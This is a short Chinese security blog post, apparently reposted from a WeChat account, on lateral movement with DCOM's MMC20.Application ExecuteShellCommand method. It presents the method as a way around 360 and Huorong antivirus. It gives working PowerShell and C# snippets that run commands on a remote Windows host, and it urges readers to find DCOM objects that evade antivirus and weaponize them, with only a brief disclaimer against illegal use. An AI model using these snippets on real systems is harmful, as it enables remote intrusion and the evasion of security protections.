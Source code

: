 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Kgdq6Hp1ERvGxKY44B_iIQ)

文章转自 -- 鸿鹄实验室

横向移动的方式有很多，但目前大多数杀软均对此有所拦截。下图为火绒的设置图

![](https://mmbiz.qpic.cn/mmbiz_jpg/mj7qfictF08UcvmJuk1nFGJVOeU04pQKlzMENNsytOibjjHDrrnDicejnjqdia1jJt4Guwg51vCHibgoguN5pX9Lwrw/640?wx_fmt=jpeg)

360 就更别提了，早就有了该安全防护。而本人比较热衷于 DCOM 的使用，常见的 DCOM 利用如下：

```
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```

但也是会被拦截，但并非所有的 DCOM 都在杀软的防护范围之内。下面是测试视频：  

成功绕过 360 执行了程序（火绒无效）。

PS 调用 DCOM 方法如下：

```
$Com = [Type]::GetTypeFromProgID("MMC20.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.Document.ActiveView.ExecuteShellCommand($Command,$null,$null,"7")
```

C# 方式如下：

```
Type ComType = Type.GetTypeFromProgID("MMC20.Application", ComputerName);
object RemoteComObject = Activator.CreateInstance(ComType);
object Document = RemoteComObject.GetType().InvokeMember("Document", BindingFlags.GetProperty, null, RemoteComObject, null);
object ActiveView = Document.GetType().InvokeMember("ActiveView", BindingFlags.GetProperty, null, Document, null);
ActiveView.GetType().InvokeMember("ExecuteShellCommand", BindingFlags.InvokeMethod, null, ActiveView, new object[] { Command , null , Parameters , 7 });
```

根据自身情况，查找可绕过杀软的 DCOM，并武器化即可。

参考文章：

https://www.ired.team/offensive-security/lateral-movement/t1175-distributed-component-object-model

禁止非法，后果自负

欢迎关注公众号：web 安全工具库

欢迎关注视频号：之乎者也吧

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibvR64ublxxAljY6Nms3QK01ouKhsl7u5FDPV3GP8wQDlu8vWRr2wbTlpfjtt9e5KG0Z7qdzVIuGsQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibvR64ublxxAljY6Nms3QK01T3YNleGJRt2pzN9KDIbngice6OwvFSY28KNuiboFUwYRDsSUR5glMCTA/640?wx_fmt=jpeg)
